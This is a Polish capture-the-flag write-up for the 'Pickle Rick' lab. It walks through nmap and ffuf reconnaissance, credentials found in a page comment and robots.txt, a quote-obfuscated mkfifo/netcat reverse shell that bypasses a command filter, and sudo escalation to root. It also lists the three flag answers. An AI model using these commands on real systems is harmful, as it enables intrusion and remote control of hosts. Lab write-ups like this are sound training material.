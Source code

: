 # Pickle Rick v2
IP=10.10.168.136

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.168.136
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-03 12:31 EDT
Nmap scan report for 10.10.168.136
Host is up (0.054s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 13:13:4c:4e:f5:51:ac:71:e0:1a:98:ac:07:94:6b:b0 (RSA)
|   256 73:60:e3:9c:24:43:d1:15:d6:32:8d:7a:24:3e:6c:98 (ECDSA)
|_  256 4f:0c:c0:e4:44:d6:4e:92:21:d9:47:c9:df:0b:6b:14 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds
```

Zostały wykryte dwa porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![80](img/80.JPG)

Widzimy, że celem jest znalezienie trzech tajnych składników. Patrzymy na źródło strony:

![Username](img/Username.JPG)

W komentarzu znajdujemy nazwę użytkownika.

```
R1ckRul3s
```

Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.26.100/FUZZ -c -e ".php"
```

![FFuf](img/FFuf.JPG)

Sprawdzamy folder "robots.txt":

![Robots](img/Robots.JPG)

```
Wubbalubbadubdub
```

Znaleziony ciąg znaków może być hasłem. Sprawdzamy następnie podstronę login.php:

![Login](img/Login.JPG)

Próbujemy się zalogować do systemu za pomocą znalezionych danych do logowania:

```
R1ckRul3s:Wubbalubbadubdub
```

Po zalogowaniu widzimy panel poleceń:

![Portal](img/Portal.JPG)

## Eksploitacja

Za pomocą panelu jesteśmy w stanie komunikować się bezpośrednio z serwerem, jednak większość komend jest zablokowana:

![Disabled](img/Disabled.JPG)

Szukamy obejścia tego zabezpieczenia na stronie [hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions):

![Bypass](img/Bypass.JPG)

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell'a za pomocą zmodyfikowanej komendy. Najpierw nasłuchujemy połączeń za pomocą narzędzia netcat, a następnie wykonujemy komendę:

```
nc -lvnp [Port]
```

```
r""m /tmp/f;m""kfifo /tmp/f;c""at /tmp/f|sh -i 2>&1|n""c [IP] [PORT] >/tmp/f
```

Po jej wykonaniu uzyskujemy dostęp do systemu:

![System](img/System.JPG)

Odczytujemy pierwszy tajny składnik:

![Flag1](img/Flag1.JPG)

```
mr. meeseek hair
```

W pliku clue.txt dostajemy podpowiedź, aby rozejrzeć się po systemie w celu znalezienia innych tajnych składników:

![Clue](img/Clue.JPG)

W katalogu domowym rick'a znajdujemy drugi tajny składnik:

![Flag2](img/Flag2.JPG)

```
1 jerry tear
```

## Zwiększenie poziomu uprawnień

Użytkownik www-data może wykonać wszystkie komendy jako root:

![Sudo](img/Sudo.JPG)

Wykorzystujemy to do zdobycia uprawnień root'a:

![Root](img/Root.JPG)

W katalogu root'a znajdujemy trzeci tajny składnik:

![Flag3](img/Flag3.JPG)

```
fleeb juice
```

Do zobaczenia na kolejnych CTF-ach!

